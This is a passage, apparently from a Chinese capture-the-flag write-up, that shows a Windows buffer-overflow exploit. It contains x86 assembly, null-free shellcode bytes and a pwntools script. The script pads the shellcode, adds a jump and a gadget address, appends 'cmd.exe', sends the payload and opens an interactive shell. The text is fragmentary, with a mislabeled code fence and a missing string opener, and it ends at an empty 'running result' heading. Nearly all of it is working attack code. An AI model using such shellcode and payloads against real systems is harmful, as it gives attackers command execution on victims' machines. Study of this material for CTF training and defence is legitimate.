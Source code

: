 ```bash
    push eax
emmm:
    pop eax
    test eax,eax
    jnz read
    call near ptr emmm
read:

    sub ax,0x3010
    push eax

    mov eax,0x14121c1
    xor eax,ecx
    mov ebx,[eax]
    call ebx

    pop ebx
    jmp ebx
'''

#shellcode = asm(shellcode)
shellcode = b'\xb9\x01\x01\x01\x01\xb8\xbd!A\x011\xc8\x8b\x181\xc9Q\xff\xd3YP\xb9\x01\x01\x01\x01Q1\xc0PX\x85\xc0u\x05\xe8\xf6\xff\xff\xfff-\x100P\xb8\xc1!A\x011\xc8\x8b\x18\xff\xd3[\xff\xe3'

print(shellcode)
assert(b'\n' not in shellcode and b'\x00' not in shellcode)
assert(len(shellcode) < 120)

print(shellcode)

payload = shellcode.ljust(120,b'\xAA') + b'\xeb\x86\xAA\xAA' + p32(pop2) + b'cmd.exe'

p.sendlineafter(b'data:',payload)

p.sendline(b'\xcc' + shell)
p.interactive()
```

这里的 shellcode 在 windows 下编译不了，放在 linux 虚拟机里编译好后使用

运行效果：
